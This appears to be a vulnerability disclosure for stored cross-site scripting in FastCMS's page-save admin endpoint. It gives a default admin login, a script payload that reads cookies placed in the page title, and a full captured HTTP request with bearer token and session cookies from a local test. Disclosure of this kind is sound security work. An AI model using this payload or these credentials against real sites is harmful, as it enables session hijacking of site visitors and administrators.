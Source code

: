 CMS:https://github.com/my-fastcms/fastcms/

Vulnerability http://127.0.0.1:8080/fastcms/api/admin/page/save

POST form-data parameter title=" " exists stored cross-site scripting

Copy Steps
1.Go to administrator login

http://127.0.0.1:8080/fastcms/

Default administrator access information username:admin password: 1

2.Click on "Page" and click on "New Page"
![295873542-05741a25-8139-4c89-bb98-101c97e4f93e](https://github.com/biantaibao/XSS/assets/131763503/16ed9fd1-b9ce-405a-9b79-b5488485c902)


3.Put Payload into the title parameter

Payload:<script>alert(document.cookie)</script>
![image](https://github.com/biantaibao/XSS/assets/131763503/5bbafc53-ae85-47f1-8481-3994fa3c35af)

4.Click on Save

Transmission packet

POST /fastcms/api/admin/page/save HTTP/1.1

Host: 127.0.0.1:8080

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0

Accept: application/json, text/plain, /

Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2

Accept-Encoding: gzip, deflate

Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoiMSIsInVzZXJJZCI6MSwidXNlcm5hbWUiOiJhZG1pbiIsImV4cCI6MTcwNDk4MjgzNX0.BqRd5hHJ5rZQHfCwR1JwyaQT_iyFPyhbBIes1Paj-eg

ClientId: 5986012cabe54397a001bf61b4d88706

Content-Type: application/x-www-form-urlencoded

Content-Length: 305

Origin: http://127.0.0.1:8080

Connection: close

Referer: http://127.0.0.1/fastcms.html

Cookie: Hm_lvt_2f24154b3f87697d36a4e2a638b68aaa=1704782281; JSESSIONID=36080a69-5232-4088-85be-6074f45e49e2; Hm_lpvt_2f24154b3f87697d36a4e2a638b68aaa=1704782281; Hm_lvt_f8cddee34ca21f05373a9388cfdd798b=1704964823; Hm_lpvt_f8cddee34ca21f05373a9388cfdd798b=1704966995

id=3&createUserId=1&title=%3Cscript%3Ealert%28document.cookie%29%3C%2Fscript%3E&path=11&contentHtml=%3Cp%3E1%3C%2Fp%3E&outLink=&seoKeywords=1&seoDescription=1&summary=11&thumbnail=&style=&status=publish&suffix=&viewCount=0&commentEnable=false&created=&updated=&url=http%3A%2F%2F192.168.43.1%3A8080%2Fp%2F3

5.Payload will trigger when a user visits on http://127.0.0.1:8080/p/3
![image](https://github.com/biantaibao/XSS/assets/131763503/beb9c9c6-ca5c-46cb-818b-3103a0f4be33)


